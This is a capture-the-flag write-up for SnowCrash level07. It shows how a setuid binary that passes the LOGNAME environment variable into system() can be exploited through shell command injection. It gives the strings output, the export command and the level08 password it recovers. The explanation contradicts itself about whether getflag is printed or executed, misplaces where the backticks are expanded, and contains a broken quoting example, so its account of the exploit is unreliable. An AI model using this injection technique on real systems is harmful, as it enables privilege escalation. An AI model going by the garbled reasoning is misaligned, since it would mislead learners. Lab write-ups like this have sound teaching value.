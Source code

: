 `strings:` A Linux utility that prints the sequences of printable ASCII characters present in a binary. 

`getenv():` Returns the value of an environment variable in C.

`system():` Runs a shell command in C.

`setresuid()/setresgid()`: These functions alter the user and group ids, respectively, and might be used to switch what privileges the program runs as.

#### Running strings level07 shows that:

We notice that the binary uses several system and C standard library functions, which includes `getenv(), system(), setresuid(), and setresgid()` .
One of the environment variables which it uses is `LOGNAME`.
There is a line `/bin/echo %s`, from which it seems like the program calls the `system()` function with a shell command containing `LOGNAME` variable in an echo command.
Vulnerability in Binary
The program utilizes `getenv("LOGNAME")` to retrieve the value of the environment variable `LOGNAME`. The return from `getenv()` is utilized as an argument to the `system()`` function for execution, which essentially executes echo `LOGNAME`. Thus, it is vulnerable to a possible command injection attack.

We can exploit the value of LOGNAME to execute shell commands without any limitation. We'll set LOGNAME to the `getflag command` (where it fetches the flag for the current level). The program will print LOGNAME instead of executing getflag.


## 1. Run strings on the binary:

``` bash
level07@SnowCrash:~$strings level07
/lib/ld-linux.so.2
zE&9qU
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
asprintf
getenv
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
 UWVS
[^_]
LOGNAME
/bin/echo %s 
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
	 gid
	 uid
/home/user/level07
/usr/include/i386-linux-gnu/bits
/usr/include
level07.c
types.h
unistd.h
long long int
/home/user/level07/level07.c
__uid_t
envp
long long unsigned int
setresuid
getenv
setresgid
unsigned char
system
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
asprintf
short int
buffer
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END
```

This will give us some idea of how the program uses the LOGNAME environment variable and calls the system() function with a command like /bin/echo.

## 2. Setting the LOGNAME environment variable to execute getflag:

We can exploit this by setting the LOGNAME to the command we want executed - in this case, getflag. We do this by using:

``` bash
level07@SnowCrash:~$ export LOGNAME=`getflag`
```
Run the binary: The binary run just with LOGNAME set to the getflag command will be executed:

```
bash
/bin/echo `getflag`
```

As the program is using the system() function, this command will actually execute getflag and print the flag.
LOGNAME is an environment variable used by the program. So, by setting LOGNAME to getflag, we inject this command into the system("/bin/echo LOGNAME") call.
Backticks: In the command 
``` bash 
export LOGNAME=\'getflag\`
```
the backticks execute the getflag command and its output is assigned to the LOGNAME environment variable. That's the classical shell injection since the value assigned to LOGNAMEis executed within the system()` call.
Output: Running the binary after setting LOGNAME yields:

``` bash
level07@SnowCrash:~$  ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## 3. Switch to Level08: Using the flag, to switch to the next level:

``` bash
$ su level08
Password: fiumuikeil55xe9cu4dood66h
``` 
 The program insecurely passes an environment variable - without any kind of sanitization - to the system() function. System interprets its input as a shell command so anything we set in LOGNAME gets executed along with the command. Meaning, we can inject and execute arbitrary commands such as getflag.
